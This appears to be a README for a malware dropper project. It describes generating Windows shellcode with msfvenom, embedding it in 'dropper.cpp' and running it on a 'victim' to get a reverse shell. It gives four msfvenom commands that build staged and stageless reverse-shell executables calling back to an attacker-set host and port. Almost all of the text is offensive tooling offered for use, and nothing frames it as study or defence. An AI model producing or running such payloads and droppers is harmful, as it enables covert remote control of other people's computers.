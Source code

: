 ## Overall Process
- First, we will pick a payload from `msfvenom` and generate shellcode for the selected staged or non-staged payload
- Adding that payload to `dropper.cpp`
- executing on victim for reverseshell... or whatever the payload is



### Building Shellcode using msfvenom

First of all, select the payload that you want to transform into shellcode.You can see a list of all the Metasploit payloads by using **msfvenom -l payloads**
- 
#### Staged Payloads for Windows
x86 `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`

x64 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`

#### Stageless Payloads for Windows

x86 `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`

x64 `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`

